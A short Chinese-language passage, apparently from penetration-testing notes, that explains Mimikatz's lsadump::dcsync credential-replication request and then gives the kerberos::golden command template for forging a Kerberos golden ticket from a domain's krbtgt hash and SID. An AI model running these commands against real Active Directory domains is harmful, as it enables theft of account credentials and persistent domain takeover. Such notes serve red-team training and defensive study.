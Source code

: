 > 注: lsadump::dcsync
> 向 DC 发起一个同步对象（可获取帐户的密码信息）的质询。需要的权限包括管理员组（Administrators），域管理员组（ Domain Admins）或企业管理员组（Enterprise Admins）以及域控制器的计算机帐户，只读域控制器默认不允许读取用户密码数据。

![](vx_images/587402166711.png)

- 2. 利用 krbtgt hash 和域的 sid 制作黄金票据

```
kerberos::golden /user:<伪造的用户> /domain:<域名> /sid:<域的sid> /krbtgt:<krbtgt hash> /ticket:ticket.kirbi
```

![](vx_images/142217155935.png)
